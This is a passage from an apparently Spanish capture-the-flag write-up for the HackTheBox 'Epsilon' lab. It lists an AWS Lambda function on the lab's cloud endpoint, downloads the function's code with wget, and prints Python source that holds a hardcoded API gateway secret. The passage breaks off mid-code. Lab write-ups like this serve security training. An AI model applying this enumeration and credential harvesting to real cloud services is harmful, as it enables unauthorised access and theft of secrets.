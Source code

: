 ```null
            },
            "RevisionId": "fdc95c0a-6527-469d-bfeb-8cf55c48fa16",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```

Para la única existente traigo su contenido

```null
aws --endpoint-url=http://cloud.epsilon.htb lambda get-function --function-name=costume_shop_v1
{
    "Configuration": {
        "FunctionName": "costume_shop_v1",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
        "Runtime": "python3.7",
        "Role": "arn:aws:iam::123456789012:role/service-role/dev",
        "Handler": "my-function.handler",
        "CodeSize": 478,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2023-06-15T14:51:11.800+0000",
        "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "fdc95c0a-6527-469d-bfeb-8cf55c48fa16",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code"
    },
    "Tags": {}
}
```

Me puedo descargar el ```ZIP```

```null
wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
```

Contiene un script de ```python```

```null
cat lambda_function.py
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
```